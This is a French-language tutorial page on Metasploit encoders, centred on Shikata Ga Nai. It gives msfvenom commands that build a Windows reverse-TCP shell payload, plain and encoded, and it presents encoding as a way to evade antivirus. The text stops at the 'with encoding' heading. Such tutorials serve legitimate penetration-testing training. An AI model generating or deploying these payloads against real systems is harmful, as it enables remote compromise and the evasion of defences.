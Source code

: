 # Encoders / DATABASE / SESSION

## <mark style="color:red;">**Encoders dans Metasploit**</mark>

Les encoders sont utilisés pour transformer les charges utiles (payloads) dans le cadre des tests de pénétration et des attaques, afin de les rendre compatibles avec différentes architectures de processeur et d'aider à l'évasion des antivirus. Ils sont particulièrement utiles pour :

* Adapter les payloads aux différentes architectures (x64, x86, sparc, ppc, mips).
* Supprimer les caractères hexadécimaux appelés "bad characters" des payloads.
* Encoder les payloads dans différents formats pour contourner la détection par les antivirus (bien que cette utilisation ait diminué avec l'amélioration des protections).

<mark style="color:green;">**Exemple d'Encoder populaire : Shikata Ga Nai**</mark>

**Shikata Ga Nai** (仕方がない), signifiant "Cela ne peut être aidé" ou "Rien n'y fait", est l'un des encoders les plus utilisés dans Metasploit. Bien que son efficacité ait diminué avec le temps, il reste un choix populaire pour encoder des payloads et les rendre plus difficiles à détecter.

**Caractéristiques de Shikata Ga Nai :**

* Encoder polymorphe utilisant une technique XOR additive avec rétroaction.
* Très utilisé dans les attaques par reverse shell.
* Nécessite plusieurs itérations pour obtenir des résultats satisfaisants.

<mark style="color:green;">**Exemple de commande :**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```
{% endcode %}

Cela génère un payload encodé à l'aide de Shikata Ga Nai, prêt à être envoyé à la cible.

**Sélection d'un Encoder**

Avant 2015, Metasploit utilisait des scripts séparés comme `msfpayload` et `msfencode`. Aujourd'hui, avec `msfvenom`, la génération de payloads et leur encodage sont réalisés en une seule étape.

<mark style="color:green;">**Exemple avec**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`msfvenom`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**:**</mark>

Sans encodage :

{% code fullWidth="true" %}
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```
{% endcode %}

Avec encodage (Shikata Ga Nai) :
